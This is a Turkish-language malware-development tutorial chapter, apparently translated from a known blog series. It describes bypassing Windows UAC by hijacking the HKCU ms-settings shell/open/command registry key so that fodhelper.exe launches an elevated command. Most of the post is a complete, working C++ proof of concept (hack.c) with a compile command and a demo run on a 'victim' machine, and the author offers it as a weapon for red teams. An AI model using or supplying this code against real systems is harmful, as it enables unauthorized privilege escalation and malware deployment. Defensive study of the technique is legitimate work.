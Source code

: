 \newpage
\subsection{66. kötü amaçlı yazılım AV/VM atlatma - bölüm 13 (yazıda bölüm 17): fodhelper.exe Üzerinden UAC atlatma. Basit C++ örneği.}

﷽

![av-evasion](./images/101/2023-06-20_23-11.png){width="80%"}      

Bu gönderi, antivirüsü tarama hakkından mahrum bırakarak atlatmayı amaçladığım araştırma projelerimden birinin ara sonucu olarak ortaya çıktı. Bu nedenle, kendi araştırmamın ilk adımının sonucu olup, ilginç UAC bypass tekniklerinden biri olan `fodhelper.exe` üzerinden kayıt defteri (registry) değişikliği ile atlatma yöntemini ele almaktadır.      

### kayıt defteri (Registry) değişikliği

Bir kayıt defteri anahtarını değiştirme süreci, yükseltilmiş bir programın yürütme akışını yönetilen bir komuta yönlendirme amacına sahiptir. Anahtar değerlerinin en yaygın kötüye kullanımları, `windir` ve `systemroot` ortam değişkenlerinin manipüle edilmesi ve belirli dosya uzantıları için shell open komutlarının değiştirilmesini içerir. (Hedeflenen programa bağlı olarak değişebilir.):

- `HKCU\\Software\\Classes\<targeted_extension>\\shell\\open\command (Default or DelegateExecute values)`     
- `HKCU\\Environment\\windir`     
- `HKCU\\Environment\\systemroot`        

### fodhelper.exe

`fodhelper.exe`, Windows 10'da bölgeye özel klavye ayarları gibi isteğe bağlı özellikleri yönetmek için tanıtılmıştır. Bulunduğu konum: `C:\Windows\System32\fodhelper.exe` ve Microsoft tarafından imzalanmıştır:     

![av-evasion](./images/101/2023-06-20_23-50.png){width="80%"}      

`fodhelper.exe` çalıştırıldığında, process monitor işlemi yakalamaya başlar ve (diğer şeylerin yanı sıra) tüm kayıt defteri ve dosya sistemi okuma/yazma işlemlerini gösterir. Kayıt defterinin okuma erişimleri, belirli anahtarlar veya değerler keşfedilmese de, en ilgi çekici aktivitelerden biridir. Özel izinlere gerek olmadan girişleri değiştirebildiğimiz için, `HKEY_CURRENT_USER` (HKCU) kayıt defteri anahtarları, bir programın davranışının yeni bir kayıt defteri anahtarı oluşturulduğunda nasıl değişebileceğini test etmek açısından özellikle kullanışlıdır.     

`fodhelper.exe`, `HKCU:\Software\Classes\ms-settings\shell\open\command` anahtarını arar. Bu anahtar, Windows 10'da varsayılan olarak mevcut değildir:     

![av-evasion](./images/101/2023-06-20_23-58.png){width="80%"}      

Bu yüzden, malware, `fodhelper.exe`'yi çalıştırdığında (bildiğimiz gibi, UAC istemi gerektirmeden yükseltilmeye izin veren bir Windows binary'si), Windows `fodhelper.exe`'yi Medium (orta) bütünlük seviyesinden High (yüksek) bütünlük seviyesine otomatik olarak yükseltir. Yüksek bütünlük seviyesindeki `fodhelper.exe`, bir `ms-settings` dosyasını varsayılan işleyicisiyle açmaya çalışır. Ancak, orta bütünlük (`medium integrity`) seviyesindeki malware bu işleyiciyi ele geçirdiğinden, yükseltilmiş `fodhelper.exe`, kötü amaçlı bir komutu yüksek bütünlük seviyesinde çalıştırır.    

### pratik örneği

Şimdi, bu mantık için PoC oluşturalım. Öncelikle, kayıt defteri anahtarını oluşturup değerleri ayarlayalım - kayıt defteri değişiklik adımımız:      

```cpp
HKEY hkey;
DWORD d;

const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; // default program
const char* del = "";

// attempt to open the key
LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 0, 
KEY_WRITE, NULL, &hkey, &d);
printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : 
"successfully create reg key\n");

// set the registry values
stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : 
"successfully set reg value\n");

stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)del, 
strlen(del));
printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" : 
"successfully set reg value: DelegateExecute\n");

// close the key handle
RegCloseKey(hkey);
```

Üstte açıklandığı gibi, `HKCU:\Software\Classes\ms-settings\` altında yeni bir kayıt defteri yapısı oluşturularak UAC atlatması gerçekleştirilmektedir.    

Daha sonra, yükseltilmiş uygulamayı başlatın:    

```cpp
 // start the fodhelper.exe program
SHELLEXECUTEINFO sei = { sizeof(sei) };
sei.lpVerb = "runas";
sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
sei.hwnd = NULL;
sei.nShow = SW_NORMAL;

if (!ShellExecuteEx(&sei)) {
  DWORD err = GetLastError();
  printf (err == ERROR_CANCELLED ? "the user refused to allow privileges elevation.\n" : "unexpected error! error code: %ld\n", err);
} else {
  printf("successfully create process =^..^=\n");
}

return 0;
```

Hepsi bu kadar.    

Tam kaynak kodu `hack.c` dosyasında şu şekilde görünmektedir:        

```cpp
/*
 * hack.c - bypass UAC via fodhelper.exe
 * (registry modifications). C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/19/malware-av-evasion-17.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  HKEY hkey;
  DWORD d;

  const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
  const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; 
  // default program
  const char* del = "";

  // attempt to open the key
  LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 
  0, KEY_WRITE, NULL, &hkey, &d);
  printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : 
  "successfully create reg key\n");

  // set the registry values
  stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : 
  "successfully set reg value\n");

  stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)
  del, strlen(del));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" 
  : "successfully set reg value: DelegateExecute\n");

  // close the key handle
  RegCloseKey(hkey);

  // start the fodhelper.exe program
  SHELLEXECUTEINFO sei = { sizeof(sei) };
  sei.lpVerb = "runas";
  sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
  sei.hwnd = NULL;
  sei.nShow = SW_NORMAL;

  if (!ShellExecuteEx(&sei)) {
    DWORD err = GetLastError();
    printf (err == ERROR_CANCELLED ? "the user refused to allow privileges 
    elevation.\n" : 
    "unexpected error! error code: %ld\n", err);
  } else {
    printf("successfully create process =^..^=\n");
  }

  return 0;
}
```

### demo

Hadi her şeyi çalışırken görelim. Öncelikle, kayıt defterini kontrol edelim:       

```powershell
reg query "HKCU\Software\Classes\ms-settings\Shell\open\command"
```

![av-evasion](./images/101/2023-06-20_23-08_1.png){width="80%"}      

Ayrıca, mevcut ayrıcalıklarımızı kontrol edelim:    

```powershell
whoami /priv
```

![av-evasion](./images/101/2023-06-20_23-09_2.png){width="80%"}      

Saldırganın makinesinde `hack.c` PoC dosyamızı derleyelim:      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](./images/101/2023-06-20_23-16.png){width="80%"}      

Daha sonra, sadece kurbanın makinesinde çalıştırın (benim durumumda `Windows 10 x64 1903`):      

```powershell
.\hack.exe
```

![av-evasion](./images/101/2023-06-20_23-08.png){width="80%"}      

Gördüğünüz gibi, `cmd.exe` başlatıldı. Kayıt defteri yapısını tekrar kontrol edin:    

```powershell
reg query "HKCU\Software\Classes\ms-settings\Shell\open\command"
```

![av-evasion](./images/101/2023-06-20_23-09.png){width="80%"}      

Gördüğünüz gibi, kayıt defteri başarıyla değiştirildi.     

Başlatılan `cmd.exe` oturumundaki ayrıcalıkları kontrol edin:    

```powershell
whoami /priv
```

![av-evasion](./images/101/2023-06-20_23-09_1.png){width="80%"}      

Ardından, `Process Hacker`'ı Yönetici (Administrator) ayrıcalıklarıyla çalıştırın:     

![av-evasion](./images/101/2023-06-20_23-12.png){width="80%"}      

Ve `cmd.exe`'nin özelliklerini kontrol edin.        

![av-evasion](./images/101/2023-06-20_23-14.png){width="80%"}      

![av-evasion](./images/101/2023-06-20_23-15.png){width="80%"}      

Gördüğünüz gibi, her şey mükemmel çalıştı! =^..^=     

[Glupteba](https://malpedia.caad.fkie.fraunhofer.de/details/win.glupteba) zararlı yazılımı, bu yöntemi kullanarak önce Medium'dan High (yüksek) bütünlük seviyesine yükseliyor, ardından Token Manipulation yöntemiyle High seviyesinden System bütünlüğüne geçiyor.    

Umarım bu gönderi, mavi takım üyelerine bu ilginç bypass tekniği hakkında farkındalık kazandırır ve kırmızı takım üyelerinin cephaneliğine yeni bir silah ekler.     

[MITRE ATT&CK: Modify registry](https://attack.mitre.org/techniques/T1112/)    
[Glupteba](https://malpedia.caad.fkie.fraunhofer.de/details/win.glupteba)      
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2023-06-19-malware-av-evasion-17)       
